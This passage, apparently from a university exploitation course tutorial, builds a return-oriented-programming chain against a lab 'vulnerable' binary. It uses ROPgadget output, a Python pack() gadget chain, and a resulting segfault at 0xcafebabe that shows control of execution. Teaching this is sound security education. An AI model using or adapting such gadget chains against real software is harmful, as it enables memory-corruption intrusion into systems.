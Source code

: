 In the list, indicated with an "\<---", you see the `pop eax;ret` we
found earlier. Now we only need to find `mov [edx],eax` instruction:

``` example
user@si485H-base:demo$ ./ROPgadget.py --binary ./vulnerable | grep ": mov dword ptr \[edx\]"
0x080e62a9 : mov dword ptr [edx], cs ; push cs ; adc al, 0x41 ; ret
0x080e3b65 : mov dword ptr [edx], cs ; push cs ; adc al, 0x43 ; ret
0x080e345b : mov dword ptr [edx], cs ; push cs ; or al, 0x41 ; ret
0x08066fc4 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 1] ; pop edi ; ret
0x08067104 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 1] ; ret
0x08066ef2 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 3] ; pop edi ; ret
0x08067122 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 3] ; ret
0x080656a2 : mov dword ptr [edx], eax ; mov eax, edi ; pop edi ; ret
0x08065894 : mov dword ptr [edx], eax ; mov eax, edx ; ret
0x080a713b : mov dword ptr [edx], eax ; mov ebx, dword ptr [ebp + 0xfffffffc] ; leave ; ret
0x0808fc26 : mov dword ptr [edx], eax ; pop ebx ; ret <-- but this one works fine
0x0809a70d : mov dword ptr [edx], eax ; ret  <--- One from before
0x0807457c : mov dword ptr [edx], ecx ; add esp, 0x6c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0805ee34 : mov dword ptr [edx], ecx ; mov eax, dword ptr [esp + 4] ; ret
0x080e4871 : mov dword ptr [edx], ecx ; push cs ; adc al, 0x43 ; ret
0x08054992 : mov dword ptr [edx], ecx ; ret
```

As you can see, we found the previous one from before with the 0x09 tab
in it, but we can also find one that does the same, but with a `pop ebx`
in the middle without a 0x09 in the address. So now we have the
following, where we use 0xdeadbeef to pop into ebx

``` example
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; reat;
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx
p += pack('<I', 0xcafebabe) #  will segfault here
```

And if we run this, we see we segfault on cafebabe, hurray!

``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`F?
                                                                                                                        AAAAﾭ?zaﾭ???
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1560517.099344] vulnerable[10793]: segfault at cafebabe ip cafebabe sp bffff64c error 15
```
